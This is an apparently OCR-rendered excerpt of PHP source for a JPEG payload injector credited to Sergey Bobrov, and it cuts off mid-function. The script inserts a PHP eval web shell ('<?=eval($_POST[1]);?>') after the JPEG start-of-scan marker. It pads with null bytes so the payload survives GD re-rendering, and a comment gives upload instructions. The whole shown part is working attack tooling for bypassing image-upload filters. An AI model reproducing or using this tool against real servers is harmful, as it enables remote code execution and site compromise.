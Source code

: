 ```

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */
    //php jpg_payload.php 先上传原图渲染过的图.jpg
    //<?=eval(\$_POST[1]);?>

    $miniPayload = "<?=eval(\$_POST[1]);?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp =
                    substr($outStream, 0, $startPos) .
                    $miniPayload .
                    str_repeat("\0",$nullbytePayloadSize) .
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream =
                        substr($outStream, 0, $startPos) .
                        $miniPayload .
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
```